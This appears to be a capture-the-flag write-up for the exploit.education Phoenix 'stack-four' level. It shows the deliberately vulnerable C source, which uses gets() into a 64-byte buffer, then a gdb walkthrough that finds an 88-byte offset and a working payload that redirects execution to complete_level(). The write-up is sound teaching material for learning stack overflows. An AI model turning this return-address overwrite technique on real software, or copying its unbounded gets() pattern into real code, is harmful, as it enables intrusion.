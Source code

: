 # Code Analysis:

## Code Execution:

```bash
./stack-four 
Welcome to phoenix/stack-four, brought to you by https://exploit.education
test
and will be returning to 0x40068d

python3 -c 'print("A" * 70)' | ./stack-four 
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x40068d

python3 -c 'print("A" * 80)' | ./stack-four 
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x40068d
Segmentation fault
```
We know the program likely returns to the function at address `0x40068d`.

## Source Code:

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

void start_level() {
  char buffer[64];
  void *ret;

  gets(buffer);

  ret = __builtin_return_address(0);
  printf("and will be returning to %p\n", ret);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```
There are 3 functions,
main:
1. Displays the banner.
2. Executes the `start_level()` function.

start_level:
1. Initializes a 64-byte `buffer` variable with the user's input.
2. Initializes a `ret` variable that contains the return address of the current function.
3. Displays the `ret` variable.

complete_level:
1. Displays the completion message for the level.

# Exploitation:

## How?

To reach the `complete_level()` function, we must:
- Find the offset between `buffer` and the return address of `start_level()`.
- Replace the return address of `start_level()` with that of `complete_level()`.

## Demonstration:

### Finding the Offset

First, we note the return address of `start_level()`:

```bash
./stack-four 
Welcome to phoenix/stack-four, brought to you by https://exploit.education
test

and will be returning to 0x40068d
```

Which is `0x40068d`.

Next, we look for the start of the stack:

- We create a pattern:
```bash
sudo python3 -c 'import sys; sys.stdout.buffer.write(b"A" + b"B" * 62 + b"C")' > input
cat input 
ABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBC
```
- We then go into gdb and set a breakpoint on the `start_level()` function:
```bash
b start_level 
Breakpoint 1 at 0x400639
```
- We run the program using the pattern and continue until `gets()`:
```bash
run < input
n
n
n
n
```
- We examine the stack to see where the start of the pattern is:
```bash
x/24x $sp

0x7fffffffe4d0:	0x42424241	0x42424242	0x42424242	0x42424242
0x7fffffffe4e0:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe4f0:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe500:	0x42424242	0x42424242	0x42424242	0x43424242
0x7fffffffe510:	0xffffe500	0x00007fff	0xffffe540	0x00007fff
0x7fffffffe520:	0xffffe540	0x00007fff	0x0040068d	0x00000000
```

The start of the stack is therefore `0x7fffffffe4d0`.

Now, let's find where `0x40068d` is on the stack:
```bash
find 0x7fffffffe4d0, +96, 0x0040068d

0x7fffffffe528
1 pattern found.
```

The address where `start_level()` returns is `0x7fffffffe528`.

We can now calculate the offset:
```bash
printf "%i

\n", 0x7fffffffe528 - 0x7fffffffe4d0

88
```
### Replacing `start_level()` with `complete_level()`

The address of `complete_level()` is `0x40061d`.

```bash
info functions 
All defined functions:

Non-debugging symbols:
0x0000000000400438  _init
0x0000000000400460  printf@plt
0x0000000000400470  gets@plt
0x0000000000400480  puts@plt
0x0000000000400490  exit@plt
0x00000000004004a0  __libc_start_main@plt
0x00000000004004b0  _start
0x00000000004004c6  _start_c
0x00000000004004f0  deregister_tm_clones
0x0000000000400520  register_tm_clones
0x0000000000400560  __do_global_dtors_aux
0x00000000004005f0  frame_dummy
0x000000000040061d  complete_level
0x0000000000400635  start_level
0x000000000040066a  main
0x00000000004006a0  __do_global_ctors_aux
0x00000000004006e2  _fini
```
### Payload:

```bash
python3 -c 'import sys; sys.stdout.buffer.write(b"A" * 88 + b"\x1d\x06\x40\x00\x00\x00\x00\x00")' | ./stack-four

Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x40061d
Congratulations, you've finished phoenix/stack-four :-) Well done!
```
